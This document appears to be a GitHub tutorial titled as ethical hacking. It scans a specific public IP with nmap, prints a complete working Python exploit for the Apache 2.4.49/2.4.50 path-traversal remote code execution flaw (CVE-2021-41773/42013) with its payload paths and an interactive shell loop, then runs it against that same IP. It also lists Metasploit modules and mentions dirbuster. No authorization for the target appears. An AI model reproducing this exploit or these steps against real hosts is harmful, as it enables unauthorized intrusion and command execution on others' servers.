




# Server side
Ethical Hacking- vulnerability scanning

## Tools
<hr>

* Skipfish
* Owasp Disrbuster
* Webslayer
* Nmap
* Nessus

### The first scanner we will use
Nmap
<hr>
to see the services running, launch nmap.

```bash
nmap -sV 145.14.145.161
```
output
```
Starting Nmap 7.91 ( https://nmap.org ) at 2024-07-04 22:50 WAT
Nmap scan report for 145.14.145.161
Host is up (0.28s latency).
Not shown: 997 filtered ports
PORT    STATE SERVICE   VERSION
21/tcp  open  ftp?
80/tcp  open  http      awex
443/tcp open  ssl/https awex
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
```
You can retrieve the services that are running or go directly to retrieve them from the database.
<a href="https://www.exploit-db.com/">https://www.exploit-db.com/</a>
<br><br>


Service:`http`



* Download the python file exploit



* Look the python file

```python
# Exploit Title: Apache HTTP Server 2.4.50 - Remote Code Execution (RCE) (3)
# Date: 11/11/2021
# Exploit Author: Valentin Lobstein
# Vendor Homepage: https://apache.org/
# Version: Apache 2.4.49/2.4.50 (CGI enabled)
# Tested on: Debian GNU/Linux
# CVE : CVE-2021-41773 / CVE-2021-42013
# Credits : Lucas Schnell


#!/usr/bin/env python3
#coding: utf-8

import os
import re
import sys
import time
import requests
from colorama import Fore,Style


header = '''\033[1;91m
    
     ▄▄▄       ██▓███   ▄▄▄       ▄████▄   ██░ ██ ▓█████     ██▀███   ▄████▄  ▓█████ 
    ▒████▄    ▓██░  ██▒▒████▄    ▒██▀ ▀█  ▓██░ ██▒▓█   ▀    ▓██ ▒ ██▒▒██▀ ▀█  ▓█   ▀ 
    ▒██  ▀█▄  ▓██░ ██▓▒▒██  ▀█▄  ▒▓█    ▄ ▒██▀▀██░▒███      ▓██ ░▄█ ▒▒▓█    ▄ ▒███   
    ░██▄▄▄▄██ ▒██▄█▓▒ ▒░██▄▄▄▄██ ▒▓▓▄ ▄██▒░▓█ ░██ ▒▓█  ▄    ▒██▀▀█▄  ▒▓▓▄ ▄██▒▒▓█  ▄ 
    ▓█   ▓██▒▒██▒ ░  ░ ▓█   ▓██▒▒ ▓███▀ ░░▓█▒░██▓░▒████▒   ░██▓ ▒██▒▒ ▓███▀ ░░▒████▒
    ▒▒   ▓▒█░▒▓▒░ ░  ░ ▒▒   ▓▒█░░ ░▒ ▒  ░ ▒ ░░▒░▒░░ ▒░ ░   ░ ▒▓ ░▒▓░░ ░▒ ▒  ░░░ ▒░ ░
    ▒   ▒▒ ░░▒ ░       ▒   ▒▒ ░  ░  ▒    ▒ ░▒░ ░ ░ ░  ░     ░▒ ░ ▒░  ░  ▒    ░ ░  ░
    ░   ▒   ░░         ░   ▒   ░         ░  ░░ ░   ░        ░░   ░ ░           ░ 
''' + Style.RESET_ALL


if len(sys.argv) < 2 :
    print( 'Use: python3 file.py ip:port ' )
    sys.exit()

def end():
    print("\t\033[1;91m[!] Bye bye !")
    time.sleep(0.5)
    sys.exit(1)

def commands(url,command,session):
    directory = mute_command(url,'pwd')
    user = mute_command(url,'whoami')
    hostname = mute_command(url,'hostname')
    advise = print(Fore.YELLOW + 'Reverse shell is advised (This isn\'t an interactive shell)')
    command = input(f"{Fore.RED}╭─{Fore.GREEN + user}@{hostname}: {Fore.BLUE + directory}\n{Fore.RED}╰─{Fore.YELLOW}$ {Style.RESET_ALL}")    
    command = f"echo; {command};"
    req = requests.Request('POST', url=url, data=command)
    prepare = req.prepare()
    prepare.url = url  
    response = session.send(prepare, timeout=5)
    output = response.text
    print(output)
    if 'clear' in command:
        os.system('/usr/bin/clear')
        print(header)
    if 'exit' in command:
        end()

def mute_command(url,command):
    session = requests.Session()
    req = requests.Request('POST', url=url, data=f"echo; {command}")
    prepare = req.prepare()
    prepare.url = url  
    response = session.send(prepare, timeout=5)
    return response.text.strip()


def exploitRCE(payload):
    s = requests.Session()
    try:
        host = sys.argv[1]
        if 'http' not in host:
            url = 'http://'+ host + payload
        else:
            url = host + payload 
        session = requests.Session()
        command = "echo; id"
        req = requests.Request('POST', url=url, data=command)
        prepare = req.prepare()
        prepare.url = url  
        response = session.send(prepare, timeout=5)
        output = response.text
        if "uid" in output:
            choice = "Y"
            print( Fore.GREEN + '\n[!] Target %s is vulnerable !!!' % host)
            print("[!] Sortie:\n\n" + Fore.YELLOW + output )
            choice = input(Fore.CYAN + "[?] Do you want to exploit this RCE ? (Y/n) : ")
            if choice.lower() in ['','y','yes']:
                while True:
                    commands(url,command,session)  
            else:
                end()       
        else :
            print(Fore.RED + '\nTarget %s isn\'t vulnerable' % host)
    except KeyboardInterrupt:
        end()

def main():
    try:
        apache2449_payload = '/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/bash'
        apache2450_payload = '/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/bash'
        payloads = [apache2449_payload,apache2450_payload]
        choice = len(payloads) + 1
        print(header)
        print("\033[1;37m[0] Apache 2.4.49 RCE\n[1] Apache 2.4.50 RCE")
        while choice >= len(payloads) and choice >= 0:
            choice = int(input('[~] Choice : '))
            if choice < len(payloads):
                exploitRCE(payloads[choice])
    except KeyboardInterrupt:
            print("\n\033[1;91m[!] Bye bye !")
            time.sleep(0.5)
            sys.exit(1)

if __name__ == '__main__':
    main()
            
```
## Let's to run file
```bash
python3 Explot.py
```
Use: `python3 file.py ip:port`

```bash
python3 Explot.py 145.14.145.161:80
```
## Use metasploit to exploit
<hr>

run `msfconsole` in your terminal
```bash
sudo msfconsole
```
```bash
      .:okOOOkdc'           'cdkOOOko:.
    .xOOOOOOOOOOOOc       cOOOOOOOOOOOOx.
   :OOOOOOOOOOOOOOOk,   ,kOOOOOOOOOOOOOOO:
  'OOOOOOOOOkkkkOOOOO: :OOOOOOOOOOOOOOOOOO'
  oOOOOOOOO.    .oOOOOoOOOOl.    ,OOOOOOOOo
  dOOOOOOOO.      .cOOOOOc.      ,OOOOOOOOx
  lOOOOOOOO.         ;d;         ,OOOOOOOOl
  .OOOOOOOO.   .;           ;    ,OOOOOOOO.
   cOOOOOOO.   .OOc.     'oOO.   ,OOOOOOOc
    oOOOOOO.   .OOOO.   :OOOO.   ,OOOOOOo
     lOOOOO.   .OOOO.   :OOOO.   ,OOOOOl
      ;OOOO'   .OOOO.   :OOOO.   ;OOOO;
       .dOOo   .OOOOocccxOOOO.   xOOd.
         ,kOl  .OOOOOOOOOOOOO. .dOk,
           :kk;.OOOOOOOOOOOOO.cOk:
             ;kOOOOOOOOOOOOOOOk:
               ,xOOOOOOOOOOOx,
                 .lOOOOOOOl.
                    ,dOd,
                      .

       =[ metasploit v6.3.5-dev                           ]
+ -- --=[ 2296 exploits - 1202 auxiliary - 410 post       ]
+ -- --=[ 962 payloads - 45 encoders - 11 nops            ]
+ -- --=[ 9 evasion                                       ]

Metasploit tip: Save the current environment with the 
save command, future console restarts will use this 
environment again
Metasploit Documentation: https://docs.metasploit.com/

msf6 > search exploit
```

```bash
Matching Modules
================

   #     Name                                                                               Disclosure Date  Rank       Check  Description
   -     ----                                                                               ---------------  ----       -----  -----------
   0     auxiliary/dos/http/cable_haunt_websocket_dos                                       2020-01-07       normal     No     "Cablehaunt" Cable Modem WebSocket DoS
   1     exploit/windows/ftp/32bitftp_list_reply                                            2010-10-12       good       No     32bit FTP Client Stack Buffer Overflow
   2     exploit/windows/tftp/threectftpsvc_long_mode                                       2006-11-27       great      No     3CTftpSvc TFTP Long Mode Buffer Overflow
   3     exploit/windows/ftp/3cdaemon_ftp_user                                              2005-01-04       average    Yes    3Com 3CDaemon 2.0 FTP Username Overflow
   4     exploit/windows/scada/igss9_misc                                                   2011-03-24       excellent  No     7-Technologies IGSS 9 Data Server/Collector Packet Handling Vulnerabilities
   5     exploit/windows/scada/igss9_igssdataserver_rename                                  2011-03-24       normal     No     7-Technologies IGSS 9 IGSSdataServer .RMS Rename Buffer Overflow
   6     exploit/windows/scada/igss9_igssdataserver_listall                                 2011-03-24       good       No     7-Technologies IGSS IGSSdataServer.exe Stack Buffer Overflow
   7     exploit/windows/fileformat/a_pdf_wav_to_mp3                                        2010-08-17       normal     No     A-PDF WAV to MP3 v1.0.0 Buffer Overflow
   8     auxiliary/scanner/http/a10networks_ax_directory_traversal                          2014-01-28       normal     No     A10 Networks AX Loadbalancer Directory Traversal
   9     exploit/windows/ftp/aasync_list_reply                                              2010-10-12       good       No     AASync v2.2.1.0 (Win32) Stack Buffer Overflow (LIST)
   10    exploit/windows/scada/abb_wserver_exec                                             2013-04-05       excellent  Yes    ABB MicroSCADA wserver.exe Remote Code Execution
   11    exploit/windows/fileformat/abbs_amp_lst                                            2013-06-30       normal     No     ABBS Audio Media Player .LST Buffer Overflow
   12    exploit/linux/local/abrt_raceabrt_priv_esc                                         2015-04-14       excellent  Yes    ABRT raceabrt Privilege Escalation
   13    exploit/linux/local/abrt_sosreport_priv_esc                                        2015-11-23       excellent  Yes    ABRT sosreport Privilege Escalation
   14    exploit/windows/fileformat/acdsee_fotoslate_string                                 2011-09-12       good       No     ACDSee FotoSlate PLP File id Parameter Overflow
   15    exploit/windows/fileformat/acdsee_xpm                                              2007-11-23       good       No     ACDSee XPM File Section Buffer Overflow
   16    exploit/linux/local/af_packet_chocobo_root_priv_esc                                2016-08-12       good       Yes    AF_PACKET chocobo_root Privilege Escalation
   17    exploit/linux/local/af_packet_packet_set_ring_priv_esc                             2017-03-29       good       Yes    AF_PACKET packet_set_ring Privilege Escalation
   18    exploit/windows/sip/aim_triton_cseq                                                2006-07-10       great      No     AIM Triton 1.0.4 CSeq Buffer Overflow
   19    exploit/windows/misc/ais_esel_server_rce                                           2019-03-27       excellent  Yes    AIS logistics ESEL-Server Unauth SQL Injection RCE
   20    exploit/aix/rpc_cmsd_opcode21                                                      2009-10-07       great      No     AIX Calendar Manager Service Daemon (rpc.cmsd) Opcode 21 Buffer Overflow
   21    exploit/windows/misc/allmediaserver_bof                                            2012-07-04       normal     No     ALLMediaServer 0.8 Buffer Overflow
   22    exploit/windows/fileformat/allplayer_m3u_bof                                       2013-10-09       normal     No     ALLPlayer M3U Buffer Overflow
   23    exploit/windows/fileformat/aol_phobos_bof                                          2010-01-20       average    No     AOL 9.5 Phobos.Playlist Import() Stack-based Buffer Overflow
   24    exploit/windows/fileformat/aol_desktop_linktag                                     2011-01-31       normal     No     AOL Desktop 9.6 RTX Buffer Overflow
   25    exploit/windows/browser/aim_goaway                                                 2004-08-09       great      No     AOL Instant Messenger goaway Overflow
   26    exploit/windows/browser/aol_ampx_convertfile                                       2009-05-19       normal     No     AOL Radio AmpX ActiveX Control ConvertFile() Buffer Overflow
   27    exploit/linux/local/apt_package_manager_persistence                                1999-03-09       excellent  No     APT Package Manager Persistence
   28    exploit/windows/browser/asus_net4switch_ipswcom                                    2012-02-17       normal     No     ASUS Net4Switch ipswcom.dll ActiveX Stack Buffer Overflow
   29    exploit/linux/misc/asus_infosvr_auth_bypass_exec                                   2015-01-04       excellent  No     ASUS infosvr Auth Bypass Command Execution
   30    exploit/linux/http/atutor_filemanager_traversal                                    2016-03-01       excellent  Yes    ATutor 2.2.1 Directory Traversal / Remote Code Execution
   31    exploit/multi/http/atutor_sqli                                                     2016-03-01       excellent  Yes    ATutor 2.2.1 SQL Injection / Remote Code Execution
   32    exploit/multi/http/atutor_upload_traversal                                         2019-05-17       excellent  Yes    ATutor 2.2.4 - Directory Traversal / Remote Code Execution,
   33    exploit/unix/webapp/awstatstotals_multisort                                        2008-08-26       excellent  Yes    AWStats Totals multisort Remote Command Execution
   34    exploit/unix/webapp/awstats_configdir_exec                                         2005-01-15       excellent  Yes    AWStats configdir Remote Command Execution
   35    exploit/unix/webapp/awstats_migrate_exec   
   .
   .
   .
   .
   .
   .
   .
   .
   .
   .
   .
     2454  exploit/windows/http/edirectory_imonitor                                           2005-08-11       great      No     eDirectory 8.7.3 iMonitor Remote Stack Buffer Overflow
   2455  exploit/windows/misc/eiqnetworks_esa                                               2006-07-24       average    No     eIQNetworks ESA License Manager LICMGR_ADDLICENSE Overflow
   2456  exploit/windows/misc/eiqnetworks_esa_topology                                      2006-07-25       average    No     eIQNetworks ESA Topology DELETEDEVICE Overflow
   2457  exploit/linux/antivirus/escan_password_exec                                        2014-04-04       excellent  Yes    eScan Web Management Console Command Injection
   2458  exploit/windows/fileformat/esignal_styletemplate_bof                               2011-09-06       normal     No     eSignal and eSignal Pro File Parsing Buffer Overflow in QUO
   2459  exploit/multi/http/extplorer_upload_exec                                           2012-12-31       excellent  Yes    eXtplorer v2.1 Arbitrary File Upload Vulnerability
   2460  exploit/windows/fileformat/ezip_wizard_bof                                         2009-03-09       good       No     eZip Wizard 3.0 Stack Buffer Overflow
   2461  exploit/unix/webapp/elfinder_php_connector_exiftran_cmd_injection                  2019-02-26       excellent  Yes    elFinder PHP Connector exiftran Command Injection
   2462  exploit/windows/ftp/freeftpd_user                                                  2005-11-16       average    Yes    freeFTPd 1.0 Username Overflow
   2463  exploit/windows/ftp/freeftpd_pass                                                  2013-08-20       normal     Yes    freeFTPd PASS Command Buffer Overflow
   2464  exploit/windows/fileformat/galan_fileformat_bof                                    2009-12-07       normal     No     gAlan 0.2.1 Buffer Overflow
   2465  exploit/linux/local/glibc_origin_expansion_priv_esc                                2010-10-18       excellent  Yes    glibc '$ORIGIN' Expansion Privilege Escalation
   2466  exploit/linux/local/glibc_realpath_priv_esc                                        2018-01-16       normal     Yes    glibc 'realpath()' Privilege Escalation
   2467  exploit/linux/local/glibc_ld_audit_dso_load_priv_esc                               2010-10-18       excellent  Yes    glibc LD_AUDIT Arbitrary DSO Load Privilege Escalation
   2468  exploit/windows/fileformat/iftp_schedule_bof                                       2014-11-06       normal     No     i-FTP Schedule Buffer Overflow
   2469  auxiliary/dos/apple_ios/webkit_backdrop_filter_blur                                2018-09-15       normal     No     iOS Safari Denial of Service with CSS
   2470  exploit/windows/local/ipass_launch_app                                             2015-03-12       excellent  Yes    iPass Mobile Client Service Privilege Escalation
   2471  exploit/aix/local/ibstat_path                                                      2013-09-24       excellent  Yes    ibstat $PATH Privilege Escalation
   2472  exploit/qnx/local/ifwatchd_priv_esc                                                2014-03-10       excellent  Yes    ifwatchd Privilege Escalation
   2473  exploit/windows/browser/lpviewer_url                                               2008-10-06       normal     No     iseemedia / Roxio / MGI Software LPViewer ActiveX Control Buffer Overflow
   2474  exploit/linux/local/ktsuss_suid_priv_esc                                           2011-08-13       excellent  Yes    ktsuss suid Privilege Escalation
   2475  exploit/linux/local/lastore_daemon_dbus_priv_esc                                   2016-02-02       excellent  Yes    lastore-daemon D-Bus Privilege Escalation
   2476  auxiliary/scanner/ssh/libssh_auth_bypass                                           2018-10-16       normal     No     libssh Authentication Bypass Scanner
   2477  exploit/windows/browser/mirc_irc_url                                               2003-10-13       normal     No     mIRC IRC URL Buffer Overflow
   2478  exploit/windows/misc/mirc_privmsg_server                                           2008-10-02       normal     No     mIRC PRIVMSG Handling Stack Buffer Overflow
   2479  exploit/osx/browser/osx_gatekeeper_bypass                                          2021-03-25       manual     No     macOS Gatekeeper check bypass
   2480  exploit/osx/local/cfprefsd_race_condition                                          2020-03-18       excellent  Yes    macOS cfprefsd Arbitrary File Write Local Privilege Escalation
   2481  auxiliary/dos/http/marked_redos                                                                     normal     No     marked npm module "heading" ReDoS
   2482  exploit/unix/webapp/mybb_backdoor                                                  2011-10-06       excellent  Yes    myBB 1.6.4 Backdoor Arbitrary Command Execution
   2483  exploit/linux/http/op5_config_exec                                                 2016-04-08       excellent  Yes    op5 v7.1.9 Configuration Command Execution
   2484  exploit/unix/webapp/opensis_chain_exec                                             2020-06-30       excellent  Yes    openSIS Unauthenticated PHP Code Execution
   2485  exploit/unix/webapp/oscommerce_filemanager                                         2009-08-31       excellent  No     osCommerce 2.2 Arbitrary PHP Code Execution
   2486  exploit/multi/http/oscommerce_installer_unauth_code_exec                           2018-04-30       excellent  Yes    osCommerce Installer Unauthenticated Code Execution
   2487  auxiliary/sniffer/psnuffle                                                                          normal     No     pSnuffle Packet Sniffer
   2488  exploit/unix/http/pfsense_graph_injection_exec                                     2016-04-18       excellent  No     pfSense authenticated graph status RCE
   2489  exploit/unix/http/pfsense_group_member_exec                                        2017-11-06       excellent  Yes    pfSense authenticated group member RCE
   2490  exploit/linux/http/php_imap_open_rce                                               2018-10-23       good       Yes    php imap_open Remote Code Execution
   2491  exploit/unix/webapp/phpbb_highlight                                                2004-11-12       excellent  No     phpBB viewtopic.php Arbitrary Code Execution
   2492  exploit/unix/webapp/phpcollab_upload_exec                                          2017-09-29       excellent  Yes    phpCollab 2.5.1 Unauthenticated File Upload
   2493  exploit/multi/http/phpfilemanager_rce                                              2015-08-28       excellent  Yes    phpFileManager 0.9.8 Remote Code Execution
   2494  exploit/multi/http/phpldapadmin_query_engine                                       2011-10-24       excellent  Yes    phpLDAPadmin query_engine Remote PHP Code Injection
   2495  exploit/multi/http/phpmyadmin_3522_backdoor                                        2012-09-25       normal     No     phpMyAdmin 3.5.2.2 server_sync.php Backdoor
   2496  exploit/multi/http/phpmyadmin_lfi_rce                                              2018-06-19       good       Yes    phpMyAdmin Authenticated Remote Code Execution
   2497  exploit/multi/http/phpmyadmin_null_termination_exec                                2016-06-23       excellent  Yes    phpMyAdmin Authenticated Remote Code Execution
   2498  exploit/multi/http/phpmyadmin_preg_replace                                         2013-04-25       excellent  Yes    phpMyAdmin Authenticated Remote Code Execution via preg_replace()
   2499  exploit/multi/http/phpscheduleit_start_date                                        2008-10-01       excellent  Yes    phpScheduleIt PHP reserve.php start_date Parameter Arbitrary Code Injection
   2500  exploit/linux/local/ptrace_sudo_token_priv_esc                                     2019-03-24       excellent  Yes    ptrace Sudo Token Privilege Escalation
   2501  exploit/multi/http/qdpm_upload_exec                                                2012-06-14       excellent  Yes    qdPM v7 Arbitrary PHP File Upload Vulnerability
   2502  exploit/unix/webapp/rconfig_install_cmd_exec                                       2019-10-28       excellent  Yes    rConfig install Command Execution
   2503  exploit/linux/local/rc_local_persistence                                           1980-10-01       excellent  No     rc.local Persistence
   2504  exploit/unix/http/tnftp_savefile                                                   2014-10-28       excellent  No     tnftp "savefile" Arbitrary Command Execution
   2505  auxiliary/dos/http/ua_parser_js_redos                                                               normal     No     ua-parser-js npm module ReDoS
   2506  exploit/multi/http/v0pcr3w_exec                                                    2013-03-23       great      Yes    v0pCr3w Web Shell Remote Code Execution
   2507  exploit/multi/http/vbseo_proc_deutf                                                2012-01-23       excellent  Yes    vBSEO proc_deutf() Remote PHP Code Injection
   2508  auxiliary/gather/vbulletin_getindexablecontent_sqli                                2020-03-12       normal     No     vBulletin /ajax/api/content_infraction/getIndexableContent nodeid Parameter SQL Injection
   2509  exploit/multi/http/vbulletin_getindexablecontent                                   2020-03-12       manual     Yes    vBulletin /ajax/api/content_infraction/getIndexableContent nodeid Parameter SQL Injection
   2510  exploit/multi/http/vbulletin_unserialize                                           2015-11-04       excellent  Yes    vBulletin 5.1.2 Unserialize Code Execution
   2511  exploit/multi/http/vbulletin_widget_template_rce                                   2020-08-09       excellent  Yes    vBulletin 5.x /ajax/render/widget_tabbedcontainer_tab_panel PHP remote code execution.
   2512  auxiliary/admin/http/vbulletin_upgrade_admin                                       2013-10-09       normal     No     vBulletin Administrator Account Creation
   2513  auxiliary/gather/vbulletin_vote_sqli                                               2013-03-24       normal     Yes    vBulletin Password Collector via nodeid SQL Injection
   2514  exploit/unix/webapp/vbulletin_vote_sqli_exec                                       2013-03-25       excellent  Yes    vBulletin index.php/ajax/api/reputation/vote nodeid Parameter SQL Injection
   2515  exploit/unix/webapp/php_vbulletin_template                                         2005-02-25       excellent  Yes    vBulletin misc.php Template Name Arbitrary Code Execution
   2516  exploit/multi/http/vbulletin_widgetconfig_rce                                      2019-09-23       excellent  Yes    vBulletin widgetConfig RCE
   2517  exploit/multi/http/vtiger_soap_upload                                              2013-03-26       excellent  Yes    vTiger CRM SOAP AddEmailAttachment Arbitrary File Upload
   2518  exploit/multi/http/vtiger_php_exec                                                 2013-10-30       excellent  Yes    vTigerCRM v5.4.0/v5.3.0 Authenticated Remote Code Execution
   2519  exploit/multi/misc/w3tw0rk_exec                                                    2015-06-04       excellent  Yes    w3tw0rk / Pitbul IRC Bot  Remote Code Execution
   2520  auxiliary/dos/http/ws_dos                                                                           normal     No     ws - Denial of Service
   2521  exploit/windows/fileformat/xradio_xrl_sehbof                                       2011-02-08       normal     No     xRadio 0.95b Buffer Overflow
   2522  exploit/unix/http/xdebug_unauth_exec                                               2017-09-17       excellent  Yes    xdebug Unauthenticated OS Command Execution


Interact with a module by name or index. For example info 2522, use 2522 or use exploit/unix/http/xdebug_unauth_exec
                           
   ```
## Use Owasp dirbuster
<hr>
Lauch dirbuster

```bash
dirbuster
```

